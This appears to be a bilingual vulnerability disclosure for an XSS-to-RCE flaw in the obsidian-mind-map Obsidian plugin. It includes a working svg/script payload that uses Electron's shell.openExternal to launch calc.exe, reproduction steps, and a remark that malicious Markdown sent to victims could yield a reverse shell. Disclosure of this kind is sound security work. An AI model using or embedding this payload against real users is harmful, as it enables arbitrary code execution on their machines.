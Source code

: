 # Mind Map XSS2RCE

## 一、概述 | Ⅰ. Overview

**影响版本**：**[obsidian-mind-map](https://github.com/lynchjames/obsidian-mind-map)** 所有版本

**Affect version**: **[obsidian-mind-map](https://github.com/lynchjames/obsidian-mind-map)**   For all versions



**漏洞类型**：XSS及RCE

**Vulnerability Type**: XSS & RCE



**描述**：

**Description**:

obsidian-mind-map是Markdown笔记工具obsidian的一个插件，用于通过Markdown渲染生成思维导图，具有360,713次安装：

Obsidian-mind-map is a plugin for the Markdown note-taking tool obsidian for generating mind maps via Markdown rendering, with 360,713 installs:

![image-20231107165909462](./images/image-20231107165909462.png)

该插件最新版本为1.1.0，对其所有版本均可通过以下svg标签实现XSS，由于obsidian使用electron开发，借由electron实现RCE：

The latest version of the plugin is 1.1.0, and for all versions, XSS is available via the following svg tag, and since obsidian is developed using electron, RCE is implemented via electron:

```js
<svg><script>try{ const {shell} = require('electron'); shell.openExternal('file:C:/Windows/System32/calc.exe') }catch(e){alert(e)}//";</script></svg>
```

## 二、复现 | Ⅱ. Reproduction

### 1、创建一个markdown文档，插入payload | 1. Create a markdown document and insert the payload

![image-20231107170641948](./images/image-20231107170641948.png)

### 2、打开mind map渲染markdown | 2. Open mind map to render markdown

![image-20231107170901381](./images/image-20231107170901381.png)

![image-20231107171102749](./images/image-20231107171102749.png)

如上图，执行`C:/Windows/System32/calc.exe`

As shown above, the execution `  C: / Windows/System32 / calc. Exe ` 

## 三、拓展利用 | Ⅲ. Vulnerability exploitation

攻击者可以通过向受害者发送含有payload的恶意Markdown，在受害者打开后，若安装了mind map插件，将导致执行攻击者命令，如反弹shell。

The attacker can do this by sending a malicious Markdown with a payload that, when opened by the victim, if the mind map plugin is installed, will result in the execution of attacker commands, such as a rebound shell.
